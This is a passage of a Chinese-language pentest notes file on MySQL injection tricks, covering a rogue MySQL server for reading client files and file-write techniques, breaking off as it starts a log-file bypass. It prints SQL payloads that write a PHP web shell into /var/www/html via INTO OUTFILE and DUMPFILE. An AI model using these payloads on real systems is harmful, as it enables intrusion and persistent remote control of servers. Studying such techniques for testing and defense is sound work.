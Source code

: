 ```
z = mysql_listener()
daemonize()
asyncore.loop()
```

需要注意的是：这个过程需要客户端允许使用`load data local`才行，不过这个信息在客户端尝试连接到服务端的数据包中可以找到。

![image-20231207224728009](../../_Attachment/mysql注入及Trick小结.assets/image-20231207224728009.png)

### 写

说完了读文件，那我们来说说mysql的写文件操作。常见的写文件操作如下：

```
select 1,"<?php @assert($_POST['t']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php @assert($_POST['t']);?>" into dumpfile '/var/www/html/1.php';
```

限制：

- `secure-file-priv`无值或为可利用的目录
- 需知道目标目录的绝对目录地址
- 目标目录可写，mysql的权限足够。

#### 日志法

由于mysql在5.5.53版本之后，`secure-file-priv`的值默认为`NULL`，这使得正常读取文件的操作基本不可行。我们这里可以利用mysql生成日志文件的方法来绕过。

mysql日志文件的一些相关设置可以直接通过命令来进行：
